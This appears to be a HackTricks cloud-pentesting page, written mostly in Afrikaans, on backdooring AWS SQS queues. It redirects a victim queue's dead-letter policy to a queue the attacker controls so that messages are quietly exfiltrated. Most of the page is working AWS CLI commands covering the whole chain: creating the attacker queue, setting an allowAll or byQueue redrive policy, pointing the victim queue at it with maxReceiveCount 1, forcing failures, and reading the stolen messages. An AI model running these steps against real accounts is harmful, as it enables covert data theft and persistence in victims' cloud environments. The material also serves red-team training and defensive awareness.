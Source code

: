 # AWS - SQS DLQ Backdoor Persistence via RedrivePolicy/RedriveAllowPolicy

{{#include ../../../../banners/hacktricks-training.md}}

Misbruik SQS Dead-Letter Queues (DLQs) om stiekem data van 'n slagoffer-bron queue af te tap deur sy RedrivePolicy na 'n deur die aanvaller beheerde queue te wys. Met 'n lae maxReceiveCount en deur normale verwerkingsfoute te veroorsaak of af te wag, word boodskappe outomaties na die aanvallers DLQ omgeleid sonder om producers of Lambda event source mappings te verander.

## Misbruikte Toestemmings
- sqs:SetQueueAttributes on the victim source queue (om RedrivePolicy te stel)
- sqs:SetQueueAttributes on the attacker DLQ (om RedriveAllowPolicy te stel)
- Opsioneel vir versnelde uitvoering: sqs:ReceiveMessage on the source queue
- Opsioneel vir opstelling: sqs:CreateQueue, sqs:SendMessage

## Selfde-rekening Vloei (allowAll)

Voorbereiding (aanvaller-rekening of gekompromitteerde principal):
```bash
REGION=us-east-1
# 1) Create attacker DLQ
ATTACKER_DLQ_URL=$(aws sqs create-queue --queue-name ht-attacker-dlq --region $REGION --query QueueUrl --output text)
ATTACKER_DLQ_ARN=$(aws sqs get-queue-attributes --queue-url "$ATTACKER_DLQ_URL" --region $REGION --attribute-names QueueArn --query Attributes.QueueArn --output text)

# 2) Allow any same-account source queue to use this DLQ
aws sqs set-queue-attributes \
--queue-url "$ATTACKER_DLQ_URL" --region $REGION \
--attributes '{"RedriveAllowPolicy":"{\"redrivePermission\":\"allowAll\"}"}'
```
Uitvoering (run as compromised principal in victim account):
```bash
# 3) Point victim source queue to attacker DLQ with low retries
VICTIM_SRC_URL=<victim source queue url>
ATTACKER_DLQ_ARN=<attacker dlq arn>
aws sqs set-queue-attributes \
--queue-url "$VICTIM_SRC_URL" --region $REGION \
--attributes '{"RedrivePolicy":"{\"deadLetterTargetArn\":\"'"$ATTACKER_DLQ_ARN"'\",\"maxReceiveCount\":\"1\"}"}'
```
Versnelling (opsioneel):
```bash
# 4) If you also have sqs:ReceiveMessage on the source queue, force failures
for i in {1..2}; do \
aws sqs receive-message --queue-url "$VICTIM_SRC_URL" --region $REGION \
--max-number-of-messages 10 --visibility-timeout 0; \
done
```
Validasie:
```bash
# 5) Confirm messages appear in attacker DLQ
aws sqs receive-message --queue-url "$ATTACKER_DLQ_URL" --region $REGION \
--max-number-of-messages 10 --attribute-names All --message-attribute-names All
```
Voorbeeldbewys (Eienskappe sluit DeadLetterQueueSourceArn in):
```json
{
"MessageId": "...",
"Body": "...",
"Attributes": {
"DeadLetterQueueSourceArn": "arn:aws:sqs:REGION:ACCOUNT_ID:ht-victim-src-..."
}
}
```
## Kruis-rekening-variant (byQueue)
Stel RedriveAllowPolicy op die aanvaller DLQ sodat dit slegs spesifieke slagoffer source queue ARNs toelaat:
```bash
VICTIM_SRC_ARN=<victim source queue arn>
aws sqs set-queue-attributes \
--queue-url "$ATTACKER_DLQ_URL" --region $REGION \
--attributes '{"RedriveAllowPolicy":"{\"redrivePermission\":\"byQueue\",\"sourceQueueArns\":[\"'"$VICTIM_SRC_ARN"'\"]}"}'
```
## Impak
- Onopvallende, volhoubare data exfiltration/persistence deur foutiewe boodskappe outomaties van 'n slagoffer se SQS source queue na 'n deur die aanvaller beheerde DLQ om te lei, met minimale operasionele geraas en geen veranderinge aan produsente of Lambda mappings nie.

{{#include ../../../../banners/hacktricks-training.md}}
